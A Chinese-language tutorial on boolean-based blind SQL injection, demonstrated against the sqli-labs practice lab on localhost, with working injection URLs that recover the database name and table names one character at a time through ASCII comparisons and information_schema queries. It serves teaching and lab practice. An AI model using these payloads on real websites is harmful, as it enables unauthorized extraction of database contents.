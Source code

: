 ```
SQL注入之布尔盲注
```

### 1.什么是布尔盲注？

Web的页面的仅仅会返回True和False。那么布尔盲注就是进行SQL注入之后然后根据页面返回的True或者是False来得到数据库中的相关信息。

返回False时：

![image.png](https://fynotefile.oss-cn-zhangjiakou.aliyuncs.com/fynote/4348/1646720755000/a9e2622c9ab4426eb95db68e9bc76ae2.png)

返回True时：

![image.png](https://fynotefile.oss-cn-zhangjiakou.aliyuncs.com/fynote/4348/1646720755000/61d6681f946648d39f5c46ce47d0285a.png)

### 2.如何进行布尔盲注？

注入流程：

![image.png](https://fynotefile.oss-cn-zhangjiakou.aliyuncs.com/fynote/4348/1646720755000/65e35005c1d24fb085b94bf42339e5df.png)

### 3.靶场案例演示：

1.** 猜解数据库的名字**

sql注入代码,首先判断数据库名的第一个字符是否大于115

```
http://localhost/sqli-labs-php7-master/Less-8/?id=1' and ascii(mid(database(),1,1))>115--+ 
```

由于页面什么都没显示，故为false.

![image-20240716191853106](4.4SQL注入之布尔盲注/image-20240716191853106.png)	

sql注入代码,通过二分法拆解，最后发现第一个字符的ascii码是115,即s

```
http://localhost/sqli-labs-php7-master/Less-8/?id=1' and ascii(mid(database(),1,1))=115--+ 
```

![image-20240716191941902](4.4SQL注入之布尔盲注/image-20240716191941902.png)	

同理可以继续拆解数据库的后面字符，最后从而得知数据库名

http://127.0.0.1/sql/Less-5/index.php?id=1' and ascii(mid(database(),1,1))=115--+ 正常
http://127.0.0.1/sql/less-5/index.php?id=1' and ascii(mid(database(),2,1))=101--+ 正常
http://127.0.0.1/sql/less-5/index.php?id=1' and ascii(mid(database(),3,1))=99--+  正常`

如此就得到了

第一个字符的ASCII码为115解码出来为“s”

第二个字符的ASCII码为101解码出来为“e”

第二个字符的ASCII码为99解码出来为“c”

依次类推出数据库的名字为“security”

2.**猜解表明名**

同理可以使用布尔sql盲注拆解数据库当中的表名

```
http://localhost/sqli-labs-php7-master/Less-8/?id=1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 1,1),1,1))=114--+ 
正确
http://localhost/sqli-labs-php7-master/Less-8/?id=1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 1,1),2,1))=101--+ 正确
```

注：select下的limit是第几个表。

　　substr下的是截取的表内容。

​	    limit 0,1指的是显示查询结果的第一行数据，并只显示一行。

​		limit 1,1指的是显示查询结果的第二行数据，并只显示一行。

当前库下（注入点连接的数据库）第一个表ASCII码为**114  解码为r**

当前库下（注入点连接的数据库）第一个表ASCII码为**101  解码为e**

**当前库下（注入点连接的数据库）第一个表ASCII码为....**  解码为** referer**

![image.png](https://fynotefile.oss-cn-zhangjiakou.aliyuncs.com/fynote/4348/1646720755000/02a961e381134335aec168900f9974ad.png)

### 总结归纳：

盲注分为三种：

**1.[布尔型盲注](http://www.cnblogs.com/xishaonian/p/6103505.html%20)：** 根据页面返回的真假来判断的即为**布尔型盲注**

**2.[时间型盲注](http://www.cnblogs.com/xishaonian/p/6113965.html)：** 根据页面返回的时间来判断的即为**时间型盲注**

**3.报错型盲注** ：根据页面返回的对错来判断的即为**报错型盲注**
